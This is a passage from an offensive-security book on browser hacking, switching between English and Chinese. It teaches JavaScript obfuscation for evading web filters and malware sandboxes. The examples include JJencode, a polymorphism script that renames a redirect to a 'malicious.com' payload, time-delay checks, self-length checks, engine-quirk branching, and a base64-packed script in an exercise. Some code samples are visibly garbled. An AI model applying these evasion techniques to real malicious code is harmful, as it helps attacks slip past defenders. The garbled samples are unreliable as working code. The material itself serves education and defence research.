The decode_whitespace function is used to decode the content of the whitespace_encoded variable, which contains the whitespaces generated through the previous Ruby script. The decoding process reconstructs data characters byte-by-byte. String.fromCharCode is used to return the original string. Finally, the string representation of the decoded instructions is evaluated by setTimeout, and finally executed.

As you can see in Figure 3-15, the decoded source code (alert(1)) is evaluated using a setTimeout() call.

 start figure 

**Figure 3-15:** An example of the WhiteSpace encoding technique



 end figure 

### Non-alphanumeric JavaScript

Believe it or not, the flexibility of the JavaScript language enables you to encode data without using any alphanumeric characters. In 2009, Yosuke Hasegawa, a security researcher from Japan, found a way to encode JavaScript code using only symbols—for example, \[\],$\_+:~{} and a few others.

An in-depth analysis of how this technique works would probably require an entire chapter, so if you want to delve deeper into the topic, refer to the following references and whitepapers. One of the ways to encode data using non-alphanumeric JavaScript is JJencode, which de-obfuscation has been analyzed by Peter Ferrie.19 Another useful resource on obfuscation is the Web Application Obfuscation book.20

Non-alphanumeric JavaScript relies deeply on the specific type casting functionality within JavaScript, which isn’t often found in strongly typed languages such as Java or C++. A few basic concepts that promote this method of JavaScript are presented here.

First, in JavaScript you can cast a variable to a String representation by concatenating it with an empty string:

```
1+"" //returns "1"
```

Second, you have many different ways to return a Boolean value from just symbols. For example, with an empty array, empty objects, or simply an empty string:

```
![] //returns false 
!{} //returns false
!"" //returns true  
```

Given this behavior, you can easily construct strings. For instance to construct the string “false”, you can use the following code:

```
([![]]+[])
```

You first start with an empty array \[\], you negate it using !, and you have a Boolean false. Then wrapping it inside another empty array and concatenating it with yet another empty array, you obtain the string “false”. Now that you can create arbitrary strings, you need to get a reference to window.

An old example, which used to work in Firefox, is the following:

```
alert((1,[].sort)())
```

An updated example that still works in Chrome, is the following:

```
alert((0,[].concat)())
```

Both the previous examples rely on either the sort or concat functions returning window, because they don’t know which array is referenced.

At this stage you can create arbitrary strings and get a reference to window, so you can call static methods such as window.alert and others, but you need some more trickery to evaluate code. Various ways to achieve that have been discussed previously, but still one of the shortest methods is by using constructor:

```
[].constructor.constructor("alert(1)")()
```

If you access the constructor two times from an array object, you get Function. From there, you can pass strings of arbitrary code to be evaluated, such as “alert(1)”.

A number of tools exist that can assist with the generation of non-alphanumeric JavaScript including JJencode21 and AAencode,22 both from Yosuke Hasegawa. AAencode even demonstrates how you can encode JavaScript with Japanese style emoticon characters. An example of alert(1) encoded with JJencode is the following:

```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],
_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:++$,$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};
$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+
((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+
"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+
$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+
"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+"\\"+$.$__+
$.___+")"+"\"")())();
```


如你所见，像`alert(1)`这样短函数的字符编码所需字符数量很大。这使得这种编码技术很有趣，但如果需要编码数百行 JavaScript 代码，则并不总是有效。无论其适用性如何，拥有另一种编码技术来隐藏小段代码是有用的。

Yosuke 最初的 JJencode 理念引起了安全行业的兴趣，进而推动了该领域的进一步实验，最终在 slackers.org 上由 Robert Hansen 创建了 Diminutive NoAlNum JS Contest23。

### 利用混淆规避

前面的章节展示了编码的工作原理，以及它在隐藏 JavaScript 代码时的作用。混淆是另一种隐藏代码的方法，当与编码结合使用时，可以成为绕过网络过滤的非常有效手段。这些技术在野外非常常见；例如，客户端攻击交付工具包（如 BlackHole24）通常会使用混淆和编码的 JavaScript 负载。下面的章节将探讨多种技术，帮助你让代码更难被检测。

#### 随机变量和方法

如果你是开发者，你会知道编写清晰且易维护的代码是首要任务。下面的代码之所以易读，是因为变量和方法名称具有自解释性。一个新对象`malware`被创建，包含多个属性。随后，`malware`对象被挂载到`window`对象上，并调用`redirect_to_site()`函数，该函数会将浏览器重定向到`exploits`数组中的第一个 URL。

```
var malware = {
    version: '0.0.1-alpha',
    exploits: new Array("http://malicious.com/aa.js",""),
    persistent: true
};
window.malware = malware; 

function redirect_to_site(){
    window.location = window.malware.exploits[0]; 
};

redirect_to_site();
```

现在想象一下，如果有一个网络过滤方案通过正则表达式过滤网络流量，搜索关键词`malware`、`version`号以及`redirect_to_malware()`或其他函数名称。这比你想象的更为常见，如果服务器端代码多样化（polymorphism）未被使用，它可能非常有效。

start feature 

* * *

**Server-side Polymorphism** 主要被恶意软件利用，该技术通过修改代码使其难以通过静态签名（static signatures）判定为恶意。代码在每个钩子（hook）中都会发生变化，这意味着如果同一恶意软件感染两台机器，其代码在比较时会呈现不同，但功能相同。

* * *

end feature 

实现基本的服务器端代码多样化并不困难。下面的简单演示使用了按钮（hooked browser）的 Hash 数据结构（如果需要实现按会话多样化，可扩展为按会话存储）。下面的 Ruby 代码是一个示例：

```
code = <<EOF
var malware = {
    version: '0.0.1-alpha',
    exploits: new Array("http://malicious.com/aa.js",""),
    persistent: true
};
window.malware = malware;
function redirect_to_site(){
    window.location = window.malware.exploits[0];
};
redirect_to_site();
EOF

def rnd(length=5)
    chars = 'abcdefghjkmnpqrstuvwxyzABCDEFGHJKLMNPQRSTUVWXYZ_'
    result = ''
    length.times { result << chars[rand(chars.size)] }
    result
end

lookup = {
 "malware" => rnd(7),
 "exploits" => rnd(),
 "version" => rnd(),
 "persistent" => rnd(12),
 "0.0.1-alpha" => rnd(10),
 "redirect_to_site" => rnd(4)
}

lookup.each do |key,value|
 code = code.gsub!(key, value)
end

File.open("result.js", 'w'){|f|f.write(code)}
```

每次运行该代码（例如在钩取新浏览器时），result.js 中的 JavaScript 代码将会不同。例如：

```
var uxGfLVC = {
    sXCrv: 'ZEpXkhxSMz',
    egCSx: new Array("http://malicious.com/aa.js",""),
    LctUZLQnJ_gp: true
};
window.uxGfLVC = uxGfLVC;
function HrhB(){
    window.location = window.uxGfLVC.egCSx[0];
};
HrhB();
```

随机变量和函数名未考虑作用域。如果考虑作用域，生成的代码会更难人为分析。假设之前的代码中还包含一个名为`execute()`的函数，且`redirect_to_site()`接受输入参数：

```
function execute(cmd){
eval(cmd);
};
function redirect_to_site(input){
if(input)
  window.location = window.malware.exploits[0];
};
redirect_to_site(input);
```

考虑作用域的混淆会使示例代码如下。由于人为可能错误地认为多个函数使用相同的全局变量，因此可读性降低：

```
function gSYYtNBjNFbZ(napSj){
eval(napSj); 
};

function HrhB(napSj){
if(napSj)
  window.location = window.uxGfLVC.egCSx[0]; 
};

HrhB(napSj);
```

#### 混合对象表示法

你可能习惯于使用点（Dot）表示法访问属性，而不是方括号（Bracket）表示法，尤其是在阅读大量 JavaScript 代码时。从语言角度看，这两种写法在功能上基本等价。

之前的代码示例使用了点（Dot）表示法。例如，当它调用`window`对象时，再访问`malware`对象，最后访问`malware`对象的一个属性：

```
window.malware.exploits[0];
```

同样，使用方括号（Bracket）表示法的等价代码如下：

```
window['malware']['exploits'][0];
```

混合这两种表示法同样可以写出完全合法的代码：

```
window.malware['exploits'][0];
```

结合前面提到的技术（包括 Base64 编码），可以创建如下示例：

```
var uxGfLVC = {
  sXCrv: 'ZEpXkhxSMz',
  egCSx: new Array("\x68\x74\x74\x70\x3A\x2F\x2F"+
           "\x6D\x61\x6C\x69\x63\x69\x6F"+
           atob("dXMuY35f34fgdkFhLmpz"'replace'),""),
  LctUZLQnJ_gp: true
};

window['uxGfLVC'] = uxGfLVC; 
function HrhB(){
  window'lo'+'ca'+'ution'['replace'] = window.uxGfLVC['egC'+
    'Sx'][0]; 
};
HrhB();
```

可以明显（或不明显）地看出，使用点与方括号混合的写法使代码变得更难阅读。

数组通常通过`array[index]`或`array['string_element']`来访问。结合前面提到的对象访问方式和非意义化的变量名，这些方括号看起来像是用于从数据结构中获取元素，但实际并非如此，它们的作用正是制造混淆。这种混淆不仅针对人工分析人员，也可能针对网络过滤方案。

#### 时间延迟

基于时间的检查是恶意软件用来规避沙箱（emulation）的另一种方法。恶意软件检测技术通常会沙箱 JavaScript 引擎，特别是 WAF 或代理中可能存在的引擎。遗憾的是，这些引擎往往忽略`setTimeout()`或`setInterval()`的延迟，原因是性能考量。因此，一个检查 JavaScript 恶意载荷的内联网络代理不太可能等待 30 秒，这对用户不利。

这种行为可以通过实现主动延迟逻辑来利用，例如使用`setTimeout()`。延迟调用的函数也可以通过检查`Date()`对象来验证延迟是否按预期执行。如果未按时执行，触发真实恶意代码的解密例程可能不会被触发。这些技术对自动化分析恶意 JavaScript 很有效，但不一定能规避人工检测。

下面是一个示例：


var timeout = 10000; 
var interval = new Date().getSeconds();
function timer(){
  var s_interval = new Date().getSeconds();
  var diff = s_interval - interval;

  if(diff == 10 && diff > 0) key = diff + "aaa"
  if(diff == -10 && diff < 0) key = diff + "bbb"

  decrypt(key); 
}
function decrypt(key){
  // decryption routine
  alert(key); 
}

setTimeout("timer()", timeout);
[/content]

The `timer()` function is called after 10 seconds of delay. When the program flow enters that function, a check is made to see if 10 seconds have actually passed. If the expected time delay is verified, the key for the decryption routine is created, and the decryption routine is called. If the preceding code is obfuscated, including different time delays to multiple parts, it will become trickier to analyze. You might want to use different time delays in your code. This technique comes in handy, as most JavaScript sandboxes used for malware analysis have fixed timeouts, after which they give up analyzing the obfuscated code.

### Mixing Content from Another Context

Another method to obfuscate JavaScript is by mixing contexts. When a human is de-obfuscating JavaScript, the first thing they may look at is the JavaScript code itself—we would consider this a single context. Imagine if the code was broken up into multiple parts, or contexts, and they each need information from different contexts in order to function. The following code is calling the `decrypt()` function, passing as its parameter the concatenation of two String objects (from the DOM):

```
<body>
<div id="hidden_div">
<p>key</p>
</div>
</body>
```

The second string comes from the page URI: http://browserhacker.com/mixed-content/dom.html#YTJWNU1pMWpiMjUwWlc1MA== :

```
function decrypt(key){
 // decryption routine
 alert(key);
}

var key = document.getElementById('hidden_div').innerHTML;
var key2 = location.href.split("#")[1];

decrypt(key + key2);
```

If a human analyst de-obfuscates just the script itself their result won’t be overly effective. The results of using this technique can be seen in Figure 3-16:

 start figure 

**Figure 3-16:** Obfuscating code mixing two different contexts



 end figure 

The same concept can be extended to different contexts, not only the DOM. PDF files, Flash content, and Java Applets are all callable from JavaScript, so pieces of information can be pulled in from multiple disparate contexts.

### Using the callee Property

In JavaScript, if `arguments.callee` is called inside a function, it returns the function itself. This is sometimes useful when using anonymous recursive functions. Unfortunately, the use of `arguments.callee` is being deprecated from JavaScript, and will not run if using ECMAScript version 5 in strict mode.

The fact the function itself is returned by `arguments.callee` can be exploited to make de-obfuscation trickier. Imagine the function is performing a check on the code length of itself. If this check fails, parts of the code will not be executed. If someone is manually evaluating the code, by changing it, this check will likely fail. This is common when manually reviewing obfuscated code. For example, nested `eval()` calls might be replaced with helper functions such as `console.log()` or custom printing functions, to better understand the code before it’s being evaluated.

If such an approach is used inside an obfuscated function that relies on `arguments.callee` to check for its own length, the part of the sample that contains the malicious code may never get executed. When such obfuscated code gets modified during manual analysis, and the check on the code length is not, the malicious code will simply not run. To better understand how this works, a Ruby implementation of this technique is shown here:

```
placeholder = "XXXXXX"
code = <<EOF
function boot(){
var key = arguments.callee.toString().replace(/\\W/g,"");
console.log(key.length);
if(key.length == #{placeholder}){ 
    console.log("verification OK");
    //... malicious code here
}else{
    console.log("verification FAIL");
    //... dead code here}
}
EOF

code_length = code.gsub(/\W/,"").length 
# XXXXXX -> 6 chars
digits = code_length.to_s.length # returns the number of integer digits
if(digits >= placeholder.length)
 to_add = digits - placeholder.length
 final_code = code.gsub(placeholder , (code_length + to_add).to_s)
else
 to_remove = placeholder.length - digits
 final_code = code.gsub(placeholder , (code_length - to_remove).to_s)
end

File.open("result.js", 'w'){|f|f.write(final_code)} 
```

The resulting JavaScript will be written to `result.js`, and looks like this:

```
function boot(){
var key = arguments.callee.toString().replace(/\W/g,"");
console.log(key.length);
if(key.length == 166){ 
  console.log("verification OK");
  //... malicious code here
}else{
  console.log("verification FAIL");
  //... dead code here
}
}
```

For the sake of the example, the code itself is not obfuscated, nor is the 166 Integer calculated through the Ruby script, but they can both easily be obfuscated with one of the many techniques described earlier. For example, after adapting the previous Ruby code, you might want to replace 166 with:

```
document.getElementById('hidden_div').innerHTML +
atob(location.href.split("#")[1])
```

The `document.getElementById()` function will retrieve an element from the current document with an ID of `hidden_div`, which may return 160. The second part will retrieve all the base64-encoded content after the fragment identifier from the current document, decode it, and return the value (that is, 6). Summing these together will result in 166. This is a very simple example of how you can combine different encoding and obfuscation techniques. Layering and chaining some of the techniques presented so far will assist you with hiding your JavaScript code from automated and manual analysis.

### Evasion using JavaScript Engines Quirks

If you know which rendering engine you want to target, you can refine your obfuscation techniques to make de-obfuscation trickier by using JavaScript quirks between different rendering engines. These quirks can be abused to allow your code to follow a different path, depending on which JavaScript engine you use while de-obfuscating it.

For instance, Trident (Internet Explorer’s engine) returns true if the following code is evaluated. Gecko and WebKit, on the other hand, return false.

```
'\v'=='v'
```

Another similar trick to identify Internet Explorer is by using conditional comments, which work only on IE. The following snippet is a very simple example of how the Boolean negation `!` is applied only if conditional comments are enabled with `@cc_on`:

```
is_ie=/*@cc_on!@*/false;
```

If the code is evaluated by IE, it will be effectively interpreted as `!false`, resulting in the `is_ie` variable being true. In every other browser, the variable will be false because the Boolean negation will be considered just a code comment.

Now imagine you are targeting Internet Explorer and the server-side HTTP filtering engine uses SpiderMonkey (the JavaScript engine used by Firefox). If the filtering engine (using SpiderMonkey) evaluates the following code the flow will always end up in the else block:

```
if('\v'=='v'){
 ... // Malicious code for IE browser

}else{
 ... // Dead and Not-Malicious code for non-IE browsers 
}
```

The filtering engine will parse the code in the else statement and diagnose it as not malicious. The whole JavaScript content will be allowed by the proxy, and will then be potentially executed by an Internet Explorer browser. This time though, the logic flow that gets followed leads to the malicious code.


The same concept applies while manually de-obfuscating the code, in case the evaluation is done within a browser or other tools that rely on a particular JavaScript engine. The example can be flipped the other way around depending on what filtering solution you want to bypass, but the concept remains the same.

# Summary

In this chapter, you have examined why retaining control is fundamental for browser hacking. The establishment of a communication channel and persisting your control is crucial if you want to be successful when compromising your target.

Various techniques to achieve communication and persistence have been presented, and it’s now up to you to decide which method to use, or perhaps a combination of them, to achieve the best result. One possibility is that when communicating to the browser you might opt for a standard `XMLHttpRequest` communication channel. Then you might get it to automatically upgrade to the WebSocket protocol if supported. Further, you might then achieve persistence by combining `IFrames` and pop-unders. The best option will depend a lot on your specific attacking scenario.

Retaining control of the target browser will give you the opportunity to modularize the different attack code and make real-time decisions. This gives you the option of an attacker’s feedback loop. A particular action may unveil a subsequent issue, which when further investigated may expose more issues. Using this method you can choose which branch of the decision tree to go down as it presents itself. For example, you might identify all active hosts on the target browser’s local network and then choose only these to port scan.

You’ve also examined various techniques to minimize the likelihood your instructions are blocked by filters. Using these methods your code might even be too obscure for simple manual analysis. Of course, this will depend on the sophistication of your obfuscation and the sophistication of your target.

You have explored many techniques that you can use to retain control of your target browser. You are now ready to bend the browser’s functionality against itself. Let’s jump straight into the following chapters that focus on attacking the browser.

# Questions

Level1 **1.** What are the advantages in using a WebSocket protocol instead of an `XMLHttpRequest` channel? **2.** Describe how a DNS-based channel works, and why it’s good to have a stealthy communication. **3.** What is hooking a browser? **4.** Why can Man-in-the-Browser be effective in situations when IFrames cannot be used? **5.** How does the WhiteSpace encoding evasion technique work? **6.** Imagine an environment where you have a network protected by a web filtering solution. Which evasion techniques would you use? How would you combine them? **7.** Why would a time delay evasion technique be effective against Malware detection technologies? **8.** Give an example of hijacking a DOM event. **9.** What is the most reliable persistence technique in your opinion? Would you combine some of the techniques discussed previously? **10.** What does the following encoded string do? You can download the code from [`browserhacker.com`](https://browserhacker.com). 

```
ZXZhbChmdW5jdGlvbihwLGEsYyxrLGUscil7ZT1mdW5jdGlvbihjKXty
ZXR1cm4gYy50b1N0cmluZyhhKX07aWYoIScnLnJlcGxhY2UoL14vLFN0
cmluZykpe3doaWxlKGMtLSlyW2UoYyldPWtbY118fGUoYyk7az1bZnVu
Y3Rpb24oZSl7cmV0dXJuIHJbZV19XTtlPWZ1bmN0aW9uKCl7cmV0dXJu
J1xcdysnfTtjPTF9O3doaWxlKGMtLSlpZihrW2NdKXA9cC5yZXBsYWNl
KG5ldyBSZWdFeHAoJ1xcYicrZShjKSsnXFxiJywnZycpLGtbY10pO3Jl
dHVybiBwfSgnZiAzKGEpe2k9XCdcXHZcJz09XCd2XCc7OCghaSl7Mi5o
KFwnNlwnKVswXS43KGEpfX07cz0yW1wnOVwnK1wnYlwnK1wnY1wnW1wn
ZFwnXSgvZS8sXCc1XCcpXShcJ2dcJyk7ND0iai5rL2wiKyI6MS5tLm4u
byIrIi8vOnAiOzQucSgiIikucigpLnQoIiIpO3MudT13KHgoInk9PSIp
KTszKHMpOycsMzUsMzUsJ3x8ZG9jdW1lbnR8eGlydU1ESnxuZGh5c3xF
bGVtfGhlYWR8YXBwZW5kQ2hpbGR8aWZ8Y3J8fGVhdGV8NDIzNDIzc2Rm
d2VlbnRlbnR8cmVwbGFjZXw0MjM0MjNzZGZ3ZWVudHxmdW5jdGlvbnxz
Y3JpcHR8Z2V0RWxlbWVudHNCeVRhZ05hbWV8fHNqfGtvb2h8MDAwM3w3
Nnw2MXwyNzF8cHR0aHxzcGxpdHxyZXZlcnNlfHxqb2lufHNyY3x8ZXZh
bHxhdG9ifEluTbnFMbXR2YjJndk1EQXdNem94TGpjMkxqWXhMakkzTVM4
dk9uQjBkR2dpTG5Od2JHbDBLQ0lpS1ZzbmNtVjJKeXNuWVdGaFlXRW5X
eWR5WlhCc1lXTmxKMTBvTDJGaFlXRmhMeXduWlhKelpTY3BYU2dwV3lk
cWIybHVKMTBvSWlJcE93Jy5zcGxpdCgnfCcpLDAse30pKQ==
```

/Level1

For answers to the questions please refer to the book’s website at [`browserhacker.com/answers`](https://browserhacker.com/answers) or the Wiley website at: [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook).

**Notes**

1\. Mayhem. (2001). IA32 Advanced Function Hooking. Retrieved March 8, 2013 from [`www.phrack.org/issues.html?issue=58&id=8#article`](http://www.phrack.org/issues.html?issue=58&id=8#article)

2\. Caniuse.com. (2013). WebRTC. Retrieved March 8, 2013 from [`caniuse.com/#search=webrtc`](http://caniuse.com/#search=webrtc)

3\. Mozilla. (2013). Closures. Retrieved March 8, 2013 from [`developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Closures`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Closures)

4\. Eric Law. (2010). XDomainRequest - Restrictions, Limitations and Workarounds. Retrieved March 8, 2013 from [`blogs.msdn.com/b/ieinternals/archive/2010/05/13/xdomainrequest-restrictions-limitations-and-workarounds.aspx`](http://blogs.msdn.com/b/ieinternals/archive/2010/05/13/xdomainrequest-restrictions-limitations-and-workarounds.aspx)

5\. Alex Russel. (2006). Comet: Low Latency Data for the Browser. Retrieved March 8, 2013 from [`infrequently.org/2006/03/comet-low-latency-data-for-the-browser/`](http://infrequently.org/2006/03/comet-low-latency-data-for-the-browser/)

6\. Socket.io. (2012). Socket.io. Retrieved March 8, 2013 from [`socket.io/#browser-support`](http://socket.io/#browser-support)

7\. Ilya Grogorik. (2009). EventMachine based WebSocket server. Retrieved March 8, 2013 from [`github.com/igrigorik/em-websocket`](https://github.com/igrigorik/em-websocket)

8\. EventMachine Team. (2008). EventMachine. Retrieved March 8, 2013 from [`github.com/eventmachine/eventmachine/wiki`](https://github.com/eventmachine/eventmachine/wiki)

9\. Opera. (2012). An Introduction to HTML5 web messaging. Retrieved March 8, 2013 from [`dev.opera.com/articles/view/window-postmessage-messagechannel/`](http://dev.opera.com/articles/view/window-postmessage-messagechannel/)

10\. I. Fette and A. Melkinov. (2011). The Websocket Protocol. Retrieved March 8, 2013 from [`tools.ietf.org/html/rfc6455#section-11.2`](http://tools.ietf.org/html/rfc6455#section-11.2)

11\. Securitywire. (2010). Iodine rules. Retrieved March 8, 2013 from [`www.securitywire.com/snort_rules/iodine.rules`](http://www.securitywire.com/snort_rules/iodine.rules)

12\. Kenton Born. (2010). Browser-based Covert Data Exfiltration. Retrieved March 8, 2013 from [`arxiv.org/pdf/1004.4357.pdf`](http://arxiv.org/pdf/1004.4357.pdf)

13\. Mozilla. (2013). Manipulating the browser history. Retrieved March 8, 2013 from [`developer.mozilla.org/en-US/docs/Web/Guide/API/DOM/Manipulating_the_browser_history`](https://developer.mozilla.org/en-US/docs/Web/Guide/API/DOM/Manipulating_the_browser_history)

14\. Hans-Peter Buniat. (2012). jQuery pop-under. Retrieved March 8, 2013 from [`github.com/hpbuniat/jquery-popunder`](https://github.com/hpbuniat/jquery-popunder)

15\. IOActive. (2012). Reversal and Analysis of Zeus and SpyEye Banking Trojans. Retrieved March 8, 2013 from [`www.ioactive.com/pdfs/ZeusSpyEyeBankingTrojanAnalysis.pdf`](http://www.ioactive.com/pdfs/ZeusSpyEyeBankingTrojanAnalysis.pdf)

16\. Mozilla. (2013). EventTarget. Retrieved March 8, 2013 from [`developer.mozilla.org/en-US/docs/Web/API/EventTarget.addEventListener`](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget.addEventListener)


17. Dean Edwards. (2010). Packer. 从 [`http://dean.edwards.name/packer/`](http://dean.edwards.name/packer/) 获取。 2013 年 3 月 8 日。

18. Kolisar. (2008). WhiteSpace: A Different Approach to JavaScript Obfuscation. 从 [`http://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-kolisar.pdf`](http://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-kolisar.pdf) 获取。 2013 年 3 月 8 日。

19. Peter Ferrie, (2011). Malware Analysis. 从 [`http://pferrie.host22.com/papers/jjencode.pdf`](http://pferrie.host22.com/papers/jjencode.pdf) 获取。 2013 年 3 月 8 日。

20. Mario Heiderich, Eduardo Alberto Vela Nava, Gareth Heyes, and David Lindsay. (2011). Web Application Obfuscation. 从 [`http://www.amazon.co.uk/Web-Application-Obfuscation-WAFs-Evasion-Filters-alert/dp/1597496049`](http://www.amazon.co.uk/Web-Application-Obfuscation-WAFs-Evasion-Filters-alert/dp/1597496049) 获取。 2013 年 3 月 8 日。

21. Yosuke Hasegawa. (2009). JJEncode. 从 [`http://utf-8.jp/public/jjencode.html`](http://utf-8.jp/public/jjencode.html) 获取。 2013 年 3 月 8 日。

22. Yosuke Hasegawa. (2009). AAEncode. 从 [`http://utf-8.jp/public/aaencode.html`](http://utf-8.jp/public/aaencode.html) 获取。 2013 年 3 月 8 日。

23. sla.ckers.org. (2009). Diminutive NoAlNum JS Contest. 从 [`http://sla.ckers.org/forum/read.php?24,28687`](http://sla.ckers.org/forum/read.php?24,28687) 获取。 2013 年 3 月 8 日。

24. Fraser Howard. (2012). Exploring the Blackhole exploit kit. 从 [`http://nakedsecurity.sophos.com/exploring-the-blackhole-exploit-kit-10/`](http://nakedsecurity.sophos.com/exploring-the-blackhole-exploit-kit-10/) 获取。 2013 年 3 月 8 日。

25. Graham Cluley. (2012). Server-side polymorphism: How mutating web malware tries to defeat anti-virus software. 从 [`http://nakedsecurity.sophos.com/2012/07/31/server-side-polymorphism-malware/`](http://nakedsecurity.sophos.com/2012/07/31/server-side-polymorphism-malware/) 获取。 2013 年 3 月 8 日。

26. Mozilla. (2010). Property Accessors. 从 [`https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Member_Operators`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Member_Operators) 获取。 2013 年 3 月 8 日。

# Chapter 4

# Bypassing the Same Origin Policy

The Same Origin Policy (SOP) is possibly the most important security control enforced on the web. Unfortunately, it is also one of the most inconsistently implemented specifications. If the SOP is broken, or bypassed, the central security model of the World Wide Web is also broken.

The intention of the SOP is to restrict interaction between interfaces of unrelated origins. The SOP dictates that if the origin http://browserhacker.com wants to access information from http://browservictim.com, it can’t. Of course, depending on which browser is used, or which browser plugin is used, this is not always so simple.

Various SOP bypasses are analyzed in this chapter. Because the SOP is a very critical component in browser security, many of these bypasses will have been patched by the time you read this book. Still, there is a lot to research, and it’s not unusual for a new bypass to be constructed by modifying a previous one.

When you employ an SOP bypass, it’s often possible to use the hooked browser as an HTTP proxy to access origins different from the one initially hooked. Yes, it sounds weird, but you will see how this is actually possible in this chapter.

# Understanding the Same Origin Policy

The SOP deems pages having the same hostname, scheme and port as residing at the same-origin. If any of these three attributes varies, the resource is in a different origin. Hence, if provided resources come from the same hostname, scheme and port, they can interact without restriction.

The SOP was initially only defined for external resources, but was extended to include other types of origins. This included access to local files using the file scheme and browser-related resources using the chrome scheme.

Let’s consider the following analogy to demonstrate the necessity for this policy. Imagine a hospital. All patients within the hospital initially are admitted from external origins. The hospital may contain many patients at any given time, all unrelated. If any given patient in the hospital makes a request to the hospital staff to receive medical records or the status of other patients, they will be denied (and possibly with repeated aggressive attempts, admitted to another kind of hospital!). Similarly, if random members of the public make requests of the hospital to either visit or inquire about the status of any patients, the hospital will check to ensure they are closely related—of the same family or origin—before allowing access.

Now imagine a hospital that allowed unfettered interaction between its patients, the data it held about the patients and anybody from the outside world as well! This is the browser without the SOP.

Actually, it gets more complicated than that. For example, there is an SOP for XMLHttpRequest, DOM access and cookies. There are even separate SOPs for various plugins like Java, Flash and Silverlight, each demonstrating its own quirks and interpretations. When you consider these variances, you can begin to grasp the difficulty a defender has with trying to secure an origin.

If that wasn’t enough, there are legitimate reasons for web applications to communicate to different origins. Some of these cross-origin communication techniques were explored in Chapter 3, including XHR polling, the WebSocket protocol, window.postMessage() functions and DNS channels. The following sections will explore some more examples of techniques web applications use to communicate cross-origin.

## Understanding the SOP with the DOM

When determining how JavaScript and other protocols can access DOM policies, there are three portions of the URL that are compared to determine access — the hostname, the scheme and the port. If two sites contain the same hostname, scheme and port when accessed, then DOM access is granted. The only exception (for DOM access) is Internet Explorer; it only validates hostname and scheme before determining access.

This works well when all scripting is under one origin. However in many cases, there may be another host within the same root domain, which should have access to the source page’s DOM. One example might be a series of sites that use a central authentication server. For instance, store.browservictim.com may need to leverage authentication through login.browservictim.com.

In this case, the sites can use the document.domain property to allow other sites within the same domain to interact with the DOM. To allow the code from login.browservictim.com to interact with the forms on store.browservictim.com the developer would need to set the document.domain property to the root of the domain (on both sites):

```
document.domain = "browservictim.com"
```

Once this is set in the DOM, the SOP is relaxed to the root of the domain. This means that anything in the browservictim.com domain can access the DOM in the current page. There are a few restrictions to setting these values, however. Once the SOP is relaxed down to the root domain, it can’t be restricted again.

To see this in action, you can try setting the document.domain property to the root of the domain. Then, try to restrict it again. Opening the SOP to include the root domain will be allowed, however when trying to set it back, an error will be generated:

```
// current domain: store.browservictim.com
document.domain = "browservictim.com"; // Ok

// current domain: browservictim.com
document.domain = "store.browservictim.com"; // Error
```


在放松 SOP 之前，确保开发人员理解所有影响是很重要的。如果这是生产环境，且有人在 Internet 上放置了 `wikidev.browservictim.com`，则该新站点中的弱点可能对 `store.browservictim.com` 的来源构成风险。如果攻击者能够由于未修补的弱点上传恶意代码，那么 wikidev 站点将拥有与登录站点相同的访问权限。这可能会暴露信息，或导致 XSS、XSRF 或其他类型的攻击。

## 理解 SOP 与 CORS

默认情况下，如果你使用 XMLHttpRequest 对象 (XHR) 向不同源发送请求，你无法读取响应。但请求仍然会到达目的地。这是跨源请求的一个非常有用的特性，将在第 9 章和第 10 章中作为多种攻击技术的一部分进行讨论。

